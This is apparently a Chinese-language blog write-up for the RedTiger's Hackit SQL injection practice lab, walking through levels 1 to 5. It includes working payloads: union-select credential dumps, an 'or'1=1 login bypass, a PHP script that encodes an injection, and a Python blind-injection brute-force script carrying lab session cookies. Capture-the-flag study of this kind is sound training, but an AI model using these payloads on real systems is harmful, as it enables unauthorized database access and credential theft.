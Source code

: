 ```yaml
---
layout: post
title: RedTiger's-Hackit-Writeup
date: 2018-03-18
categories: SQL注入
tags: [SQL注入]
description: RedTiger's-Hackit是一个练习SQL注入的靶场
---
```


### 概述
	RedTiger's Hackit的网址是`https://redtiger.labs.overthewire.org`，有盲注，绕过等

### level1

这是level1的页面，我们得到提示：表名为`level1_users`。

![level1](http://101.132.99.228/post_img/level1.png)

点击Category:1，发现页面发生变化，这是我们的注入点。在URL后面添加

`and 1=1`和`and 1=2`

页面发生变化，则该注入点可以利用。输入`order by 1,2`判断该表有几列，输入到`order by 1,2,3,4,5`页面发生变化，那么我们判断除id外还有三列。


输入`union select 1,2,3,4 from level1_users`，发现3，4被显示出来

于是我们构造

`union select 1,2,username,password from level1_users`

就得到了登录的username和password，输入之后得到flag。

### level2
来到level2的页面，提示是loginbypass

![level2](http://101.132.99.228/post_img/level2.png)

使用`'or'1=1`进行绕过。
输入用户名，密码为`'or'1=1`，成功登录，得到flag。

### level3
提示线索是`Try to get an error`，通过错误信息得到进一步的信息。

![level3](http://101.132.99.228/post_img/level3.png)

点击Show userdetails:下面的两个超链接`TheCow`和`Admin`，发现可以进行注入。

点击Admin，查询条件是

`usr=MDQyMjExMDE0MTgyMTQw`

我们构造`usr[]=MDQyMjExMDE0MTgyMTQw`制造一个错误。
通过这个错误，我们得到报错信息

`Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

猜测urlcrypt.inc文件中有我们要的信息。
打开urlcrypt.inc是一个PHP代码，作用是对字符串进行编码，这两个函数可能就是对url进行编码的。构造以下poc进行验证。

	<?php

		function encrypt($str)
		{
			$cryptedstr = "";
			srand(3284724);
			for ($i =0; $i < strlen($str); $i++)
			{
				$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
				
				while(strlen($temp)<3)
				{
					$temp = "0".$temp;
				}
				$cryptedstr .= $temp. "";
			}
			return base64_encode($cryptedstr);
		}
	  
		$url='Admin';
		echo 'Admin encrypted:'.encrypt($url);
	?>

得到结果为
	
	Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//Windows下的执行结果为：Admin encrypted:MjE5MTU5MDM5MDIxMDYx
	//Linux执行结果为：     Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//造成这个差别的原因是，在srand()设置随机数种子相同时，调用随机数函数rand()的结果不同
	//考虑到大部分服务器系统都是Linux，所以在编写poc时最好在Linux系统上运行

与Admin的查询条件刚好相同，所以它的原理是先对查询语句进行编码，那我们构造注入语句

	' union select 1,password,2,3,4,5,6 from level3_users where username='Admin
	//经过encrypt函数编码为
	MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDE3MjUyMDI1MTI2MTU2MTc2MTMzMDAwMjQ2MTU2MjA4MTgyMDk2MTI5MjIwMDQ5MDUyMjMwMTk4MTk2MTg5MTEzMDQxMjQwMTQ0MDM2MTQwMTY5MTcyMDgzMjQ0MDg3MTQxMTE1MDY2MTUzMjE0MDk1MDM4MTgxMTY1MDQ3MTE4MDg2MTQwMDM0MDg1MTE4MTE4MDk5MjIyMjE4MDEwMTkwMjIwMDcxMDQwMjIw

于是顺利得到Admin的登录口令

### level4
level4是盲注,我们的目标是得到`level4_secret`这个表的keyword列的第一个值
![level4](http://101.132.99.228/post_img/level4.png)

首先来进行布尔盲注来判断keyword的长度'id=1 and (select count(*) from level4_secret where length(keyword)=4'。一直判断到`length(keyword)=21`，才返回`Query returned 1 rows`，证明keyword的长度是21。接下来编写poc来暴力破解出keyword的字段值。

	import re
	import string
	ans=''
	char=string.printable
	url="https://redtiger.labs.overthewire.org/level4.php?id=1%20and%20(select%20count(*)%20from%20level4_secret%20where%20substr(keyword,{0},1)='{1}')"
	header={"cookie":"level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; __cfduid=decf6542800964a4fa1356e86419c65341521017670; __utma=176859643.251792877.1521017673.1521017673.1521017673.1; __utmz=176859643.1521017673.1.1.utmcsr=wechall.net|utmccn=(referral)|utmcmd=referral|utmcct=/open_challs/by/chall_score/ASC/page-1; level4login=there_is_no_bug"
	        }
	for i in range(1,21):
	    for j in char:
	        uurl=url.format(i,j)
	        s=requests.post(url=uurl,headers=header)
	        if re.findall('Query returned 1 rows. ', s.text):
	            print(j)
	            ans=ans+j
	            break
	print(ans)

最终顺利得到keyword的值。

### level5
level5是Bypass绕过，提示的信息有：substring，substr，（，），mid都不能使用；密码是MD5加密的，关注登录错误。
![level5](http://101.132.99.228/post_img/level5.png)
